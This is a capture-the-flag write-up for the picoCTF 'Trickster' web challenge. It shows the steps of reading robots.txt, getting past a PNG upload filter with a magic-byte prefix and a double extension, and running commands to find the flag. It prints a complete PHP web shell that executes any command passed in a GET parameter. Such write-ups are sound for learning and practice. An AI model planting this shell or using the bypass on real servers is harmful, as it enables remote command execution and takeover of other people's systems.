 # Trickster 
Description:I found a web app that can help process images: PNG images only!

### Solution:
first check **robots.txt** uisng http://atlas.picoctf.net:your_port/robots.txt
we have:
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

check the instructions.txt using http://atlas.picoctf.net:your_port/instructions.txt
you will get a paragraph:

    Let's create a web app for PNG Images processing.
    It needs to:
    Allow users to upload PNG images
        look for ".png" extension in the submitted files
        make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
    after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.

acoording to the paragraph, the file we uploaded may be save in /uploads/
so, we need to create a web shell that can remote the server and type command
here is the playload 
https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985
but we need to add PNG on the first line of the playload because of the paragraph above
```
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
name the playload filenmae includes .png e.g. 0.png.php
Then upload the file on the page
now we can go to the file we uploaded http://atlas.picoctf.net:your_port/uploads/0.png.php

we can input the command on the page 
type find / -name "*.txt" to find the flag 
we can see there is a txt file name look like a base64 code 
guess it is a flag file 
and cat it using cat the path of the file
then we get the flag:))




